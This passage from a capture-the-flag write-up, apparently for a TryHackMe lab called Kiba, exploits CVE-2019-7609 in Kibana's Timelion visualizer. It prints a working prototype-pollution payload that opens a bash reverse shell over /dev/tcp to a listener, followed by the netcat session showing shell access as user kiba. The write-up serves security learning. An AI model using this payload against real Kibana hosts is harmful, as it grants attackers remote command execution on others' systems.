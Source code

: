 Doing some googling I find this GitHub outlining a vulnerability:

https://github.com/mpgn/CVE-2019-7609

```text
CVE-2019-7609

    Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.
<SNIP>
Exploit

    Open Kibana
    Past one of the following payload into the Timelion visualizer
    Click run
    On the left panel click on Canvas
    Your reverse shell should pop ! :)

```

Interesting! This GitHub also includes a couple payloads to try out, lets give it a whirl:

### Exploitation

```text
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.6.61.45/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Following the instructions above, we easily catch a reverse shell as user kiba:

```text
┌──(ryan㉿kali)-[~/THM/Kiba]
└─$ nc -lvnp 443                                          
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.145.195] 51366
bash: cannot set terminal process group (937): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ whoami 
whoami
kiba
kiba@ubuntu:/home/kiba/kibana/bin$ hostname
hostname
ubuntu
```

From here we can go ahead and grab the user.txt flag:

![user_flag.png](../assets/kiba_assets/user_flag.png)
